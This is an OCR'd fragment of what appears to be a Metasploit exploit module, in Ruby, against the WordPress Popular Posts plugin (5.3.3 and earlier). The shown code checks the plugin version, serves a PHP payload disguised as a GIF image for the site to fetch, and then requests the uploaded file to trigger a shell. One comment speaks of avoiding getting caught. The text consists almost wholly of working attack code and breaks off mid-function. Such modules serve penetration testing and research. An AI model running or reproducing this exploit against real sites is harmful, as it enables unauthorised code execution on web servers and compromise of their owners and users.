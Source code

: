 [       OptString.new('USERNAME', [true, 'Username of the account', 'admin']),       OptString.new('PASSWORD', [true, 'Password of the account', 'admin']),       OptString.new('TARGETURI', [true, 'The base path of the Wordpress server', '/']),       # https://github.com/WordPress/wordpress-develop/blob/5.8/src/wp-includes/http.php#L560       OptString.new('SRVHOSTNAME', [true, 'FQDN of the metasploit server. Must not resolve to a reserved address (192/10/127/172)', '']),       # https://github.com/WordPress/wordpress-develop/blob/5.8/src/wp-includes/http.php#L584       OptEnum.new('SRVPORT', [true, 'The local port to listen on.', 'login', ['80', '443', '8080']]),     ]   end    def check     return CheckCode::Safe('Wordpress not detected.') unless wordpress_and_online?      checkcode = check_plugin_version_from_readme('wordpress-popular-posts', '5.3.3')     if checkcode == CheckCode::Safe       print_error('Popular Posts not a vulnerable version')     end     return checkcode   end    def trigger_payload(on_disk_payload_name)     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path),       'keep_cookies' => 'true'     )     # loop this 5 times just incase there is a time delay in writing the file by the server     (1..5).each do |i|       print_status("Triggering shell at: #{normalize_uri(target_uri.path, 'wp-content', 'uploads', 'wordpress-popular-posts', on_disk_payload_name)} in 10 seconds. Attempt #{i} of 5")       Rex.sleep(10)       res = send_request_cgi(         'uri' => normalize_uri(target_uri.path, 'wp-content', 'uploads', 'wordpress-popular-posts', on_disk_payload_name),         'keep_cookies' => 'true'       )     end     if res &amp;&amp; res.code == 404       print_error('Failed to find payload, may not have uploaded correctly.')     end   end    def on_request_uri(cli, request, payload_name, post_id)     if request.method == 'HEAD'       print_good('Responding to initial HEAD request (passed check 1)')       # according to https://stackoverflow.com/questions/3854842/content-length-header-with-head-requests we should have a valid Content-Length       # however that seems to be calculated dynamically, as it is overwritten to 0 on this response. leaving here as notes.       # also didn't want to send the true payload in the body to make the size correct as that gives a higher chance of us getting caught       return send_response(cli, '', { 'Content-Type' => 'image/gif', 'Content-Length' => "GIF#{payload.encoded}".length.to_s })     end     if request.method == 'GET'       on_disk_payload_name = "#{post_id}_#{payload_name}"       register_file_for_cleanup(on_disk_payload_name)       print_good('Responding to GET request (passed check 2)')       send_response(cli, "GIF#{payload.encoded}", 'Content-Type' => 'image/gif')       close_client(cli) # for some odd reason we need to close the connection manually for PHP/WP to finish its functions       Rex.sleep(2) # wait for WP to finish all the checks it needs       trigger_payload(on_disk_payload_name)     end     print_status("Received unexpected #{request.method} request")   end    def check_gd_installed(cookie)     vprint_status('Checking if gd is installed')     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path, 'wp-admin', 'options-general.php'),       'method' => 'GET',       'cookie' => cookie,       'keep_cookies' => 'true',       'vars_get' => {         'page' => 'wordpress-popular-posts',         'tab' => 'debug'       }     )     fail_with(Failure::Unreachable, 'Site not responding') unless res     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code